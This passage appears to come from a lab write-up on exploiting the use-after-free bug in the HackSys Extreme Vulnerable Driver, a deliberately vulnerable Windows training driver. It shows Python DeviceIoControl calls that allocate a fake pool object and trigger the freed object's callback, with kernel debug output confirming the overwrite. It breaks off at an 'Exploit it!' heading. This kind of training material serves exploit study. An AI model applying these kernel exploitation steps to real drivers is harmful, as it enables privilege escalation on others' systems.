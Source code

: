 AllocateFakeObject method
```
···
fake_obj = "\x41" * 0x60
kernel32.DeviceIoControl(hevDevice, 0x22201F, fake_obj, len(fake_obj), None, 0, byref(c_ulong()), None)
···
```

UseUaFObject method
```
···
kernel32.DeviceIoControl(hevDevice, 0x222017, None, None, None, 0, byref(c_ulong()), None)
···
```

Work fine!
```
****** HACKSYS_EVD_IOCTL_ALLOCATE_UAF_OBJECT ******
[+] Allocating UaF Object
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x58
[+] Pool Chunk: 0x87A5C2E8
[+] UseAfterFree Object: 0x87A5C2E8
[+] g_UseAfterFreeObject: 0x87A5C2E8
[+] UseAfterFree->Callback: 0x90D992A4
****** HACKSYS_EVD_IOCTL_ALLOCATE_UAF_OBJECT ******

****** HACKSYS_EVD_IOCTL_FREE_UAF_OBJECT ******
[+] Freeing UaF Object
[+] Pool Tag: 'kcaH'
[+] Pool Chunk: 0x87A5C2E8
****** HACKSYS_EVD_IOCTL_FREE_UAF_OBJECT ******

****** HACKSYS_EVD_IOCTL_ALLOCATE_FAKE_OBJECT ******
[+] Creating Fake Object
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x58
[+] Pool Chunk: 0x85969718
[+] Fake Object: 0x85969718
****** HACKSYS_EVD_IOCTL_ALLOCATE_FAKE_OBJECT ******

****** HACKSYS_EVD_IOCTL_USE_UAF_OBJECT ******
[+] Using UaF Object
[+] g_UseAfterFreeObject: 0x87A5C2E8
[+] g_UseAfterFreeObject->Callback: 0x00000000
[+] Calling Callback
****** HACKSYS_EVD_IOCTL_USE_UAF_OBJECT ******
```


## 0x002 Exploit it!
